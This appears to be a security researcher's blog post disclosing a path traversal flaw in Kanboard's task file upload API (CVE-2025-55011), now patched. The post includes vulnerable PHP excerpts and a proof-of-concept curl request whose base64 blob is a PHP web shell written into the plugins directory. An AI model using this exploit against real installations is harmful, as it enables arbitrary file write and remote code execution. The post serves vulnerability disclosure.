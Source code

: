 ```yaml
---
layout: post
title: "Kanboard CVE-2025-55011"
category: cve
tags: [kanboard, cve-2025-55011, security]
---
```


<style>
pre {
  margin-top: 1.5em;   /* space above */
  margin-bottom: 1.5em !important; /* space below */
}
</style>

## Path Traversal in Task File Upload API Leads To Arbitrary File Write
### Identifying the Vulnerability
File upload vulnerabilities are often a great way to exploit an app. A couple clicks of a button and... BOOM! The server is now yours.  That's why I always make it a priority to check how files are sanitized when uploaded to an app.

When examining Kanboard's file-related protections, I noticed that a lot of work had been done on `read` protecting key files from path traversal, particularly by this method in `FileStorage.php`.

```php
/**
 * Fetch object contents
 *
 * @access public
 * @throws ObjectStorageException
 * @param  string  $key
 * @return string
 */
public function get($key)
{
    return file_get_contents($this->getRealFilePath($key));
}


private function getRealFilePath($key)
{
    $realFilePath = realpath($this->baseDir.DIRECTORY_SEPARATOR.$key);

    if ($realFilePath === false) {
        throw new ObjectStorageException('Invalid path: '.$key);
    }

    if (strpos($realFilePath, $this->baseDir) !== 0) {
        throw new ObjectStorageException('File is not in base directory: '.$realFilePath);
    }

    if (! file_exists($realFilePath)) {
        throw new ObjectStorageException('File not found: '.$realFilePath);
    }

    return $realFilePath;
}
```

However, I soon notice that on the `write` side of things (aka file upload), similar restrictions were not in place.

```php
/**
 * Save object
 *
 * @access public
 * @throws ObjectStorageException
 * @param  string  $key
 * @param  string  $blob
 */
public function put($key, &$blob)
{
    $this->createFolder($key);

    if (file_put_contents($this->baseDir.DIRECTORY_SEPARATOR.$key, $blob) === false) {
        throw new ObjectStorageException('Unable to write the file: '.$this->baseDir.DIRECTORY_SEPARATOR.$key);
    }
}
```

With this in mind, I decided to see if there were any places within the app where path traversal would be possible when writing a file. I then came across the following in `TaskFileProcedure.php`. 

```php
 public function createTaskFile($project_id, $task_id, $filename, $blob) 
 { 
     ProjectAuthorization::getInstance($this->container)->check($this->getClassName(), 'createTaskFile', $project_id); 
  
     try { 
         return $this->taskFileModel->uploadContent($task_id, $filename, $blob); 
     } catch (ObjectStorageException $e) { 
         $this->logger->error(__METHOD__.': '.$e->getMessage()); 
         return false; 
     } 
 } 
```
As can be seen, the method takes in a `project_id`, `task_id`, `filename`, and a `blob`. Note that the `project_id` appears to be validated in the first line, but the other params are not.

Going further down the method chain into `FileModel.php`, we can see how the file path is generated for a file about to be written.

```
/**
 * Generate the path for a new filename
 *
 * @access public
 * @param  integer   $id            Foreign key
 * @param  string    $filename      Filename
 * @return string
 */
public function generatePath($id, $filename)
{
    return $this->getPathPrefix().DIRECTORY_SEPARATOR.$id.DIRECTORY_SEPARATOR.hash('sha1', $filename.time());
}
```

Note that we cannot influence the final file name, as the file name we supply will be `SHA-1` hashed with the current timestamp.  However, we do control the `id` field via `task_id`, and from what we saw before, this means that we have full control over the directory we want to place the file in! All we have to do is use a payload like:

```
"project_id": 1,
"task_id": "../../../plugins",
"filename": "shell.php",
"blob": "PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7ID8+"
```

Since the app by default blocks execution of all files in the `/data` directory, we can use this path traversal to our advantage and escape the data directory to hopefully trigger execution.

### Exploiting

Assuming the base installation of Kanboard via docker, the following folders will be writable. Fortunately with the default container settings these are relatively low-risk.

```
/run/nginx
/var/lib/nginx
/var/lib/nginx/tmp
/var/lib/nginx/tmp/fastcgi
/var/lib/nginx/tmp/client_body
/var/lib/nginx/tmp/uwsgi
/var/lib/nginx/tmp/scgi
/var/lib/nginx/tmp/proxy
/var/log/nginx
/var/www/app/plugins
/var/www/app/data
/var/www/app/data/cache
/var/www/app/data/files
/var/www/app/data/files/tasks
/var/www/app/data/files/tasks/1
/proc/acpi
/proc/asound
/tmp
/dev/mqueue
/dev/shm
/var/tmp
/sys/firmware
```

However on a manual installation outside of the docker setup, this exploit could be much riskier. If a user denies all execution in the data directory but allows it from anywhere else, an attacker could write a reverse shell to plugins and immediately gain remote code execution and greatly increase the severity.

### PoC
Running Kanboard 1.2.46 inside docker on locahost:3000.

1. After creating a project, make the following curl requst:

    ```
    curl -X POST http://localhost:3000/jsonrpc.php \
    -u admin:admin \
    -H "Content-Type: application/json" \
    -d '{
    "jsonrpc": "2.0",
    "method": "createTaskFile",
    "id": 1,
    "params": {
      "project_id": 1,
      "task_id": "../../../plugins",
      "filename": "shell.php",
      "blob": "PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7ID8+"
    }
    }'
    ```
2. In the docker container notice that a file has been created in the /plugins directory with a php reverse shell as it's contents (fortunately it's not executable in the docker setup, but could be on user installations).

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/kanboard/file_created.png" alt="Password Reset" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>


### Final Thoughts
Developers are always paranoid about arbitrary file read, but often times file write can be just as deadly. What's more, even if obvious parameters like `filename` are sanitized, if other parameters are used in the path (like `task_id`) path traversal can still be possible.

Note that this has been patched and a security advisory has been published here: [GHSA-26f4-rx96-xc55 advisory](https://github.com/kanboard/kanboard/security/advisories/GHSA-26f4-rx96-xc55)
 
